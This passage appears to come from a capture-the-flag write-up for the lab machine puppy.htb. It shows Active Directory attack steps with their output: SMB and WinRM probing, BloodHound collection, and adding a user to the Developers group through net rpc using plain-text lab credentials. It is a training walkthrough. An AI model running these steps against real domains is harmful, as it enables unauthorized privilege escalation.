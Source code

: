 ```bash
smbclient -N -L //10.129.232.75/                                      
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.232.75 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

### WinRM Logon:

Tried RM-ing via given user, but seems to be KO too:

```bash
evil-winrm -i 10.129.232.75 -u levi.james -p KingofAkron2025!                             
                                        
Evil-WinRM shell v3.5                                 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                        
Info: Establishing connection to remote endpoint                                       
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError                                     
Error: Exiting with code 1
```

### BloodHound:

To quickly go through LDAP, I ran bloodhound-python:

```
bloodhound-python -u levi.james -p 'KingofAkron2025!' -d puppy.htb -ns 10.129.232.75 All
```

Added myself to the Developers groups

```
net rpc group addmem "developers@puppy.htb" -U puppy.htb/levi.james%'KingofAkron2025!' -S 10.129.232.75 levi.james
```

Check:

```
ldapsearch -x -H ldap://10.129.232.75 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -b 'DC=PUPPY,DC=HTB' -s sub '(&(objectClass=group)(cn=Developers))'  member
# extended LDIF
#
# LDAPv3
# base <DC=PUPPY,DC=HTB> with scope subtree
# filter: (&(objectClass=group)(cn=Developers))
# requesting: member 
#

# DEVELOPERS, PUPPY.HTB
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
member: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB
member: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
member: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB # <- We are now here

# search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

```